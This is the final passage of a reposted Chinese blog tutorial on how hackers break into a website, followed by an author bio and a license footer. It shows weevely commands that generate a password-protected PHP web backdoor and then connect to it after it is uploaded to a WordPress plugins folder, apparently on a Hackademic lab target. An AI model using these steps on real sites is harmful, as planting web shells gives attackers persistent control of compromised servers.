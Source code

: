 root@bt:/pentest/backdoors/web/weevely\#./main.py -g -o hax.php -p koko

接下来上传到服务器之后来使用它

root@bt:/pentest/backdoors/web/weevely\#./main.py -t -uhttp://hack-test.com/Hackademic\_RTB1/wp-content/plugins/hax.php -pkoko

测试我们的hax.php后门

完成，撒花！

![IT外包网络维护专家告诉你，黑客是如何攻破一个网站？][IT 18]

整理/夏立城 上海蓝盟创始人兼CEO，复旦校友创新创业俱乐部副会长，致力于用IT外包网络维护服务赋能企业客户发展，助力其创新、迭代和进化。


[IT]: /pro/os/crawler/JAVR-IABU-FZ6V.jpg
[IT 1]: http://p9.pstatp.com/large/pgc-image/15295655345973f39af02a7
[IT 2]: /pro/os/crawler/RN6Z-FBUZ-FYJY.jpg
[IT 3]: /pro/os/crawler/ANVE-NFIZ-6ZZE.jpg
[IT 4]: /pro/os/crawler/JFFR-NNQY-IIBM.jpg
[IT 5]: /pro/os/crawler/U2UA-RY3E-RUQI.jpg
[IT 6]: /pro/os/crawler/UFUF-32YQ-7ZMU.jpg
[IT 7]: /pro/os/crawler/NFEB-JQQY-JEFJ.jpg
[IT 8]: /pro/os/crawler/MFFE-UM7R-BVYQ.jpg
[IT 9]: /pro/os/crawler/NYAB-QQVI-B2IA.jpg
[IT 10]: /pro/os/crawler/JIMN-ZJZM-FMIB.jpg
[IT 11]: /pro/os/crawler/RJZI-N3QM-M3YU.jpg
[IT 12]: /pro/os/crawler/RIMF-VQJ3-YUMR.jpg
[IT 13]: /pro/os/crawler/QFMY-BMBA-AMU3.jpg
[IT 14]: /pro/os/crawler/ZARV-Z2IU-AZIA.jpg
[IT 15]: /pro/os/crawler/JQEV-QZYF-ZR7N.jpg
[IT 16]: /pro/os/crawler/BNEZ-F2NV-J6Z2.jpg
[IT 17]: /pro/os/crawler/3YRJ-EVEE-BVAQ.jpg
[IT 18]: /pro/os/crawler/6VJQ-N32A-UBY2.jpg
 *  **原文作者：** 夏掰创业
 *  **原文链接：** https://www.toutiao.com/item/6569434365762208270/
 *  **版权声明：** 本博客所有文章除特别声明外，均采用 [CC BY-NC-SA 4.0][] 许可协议。转载请注明出处。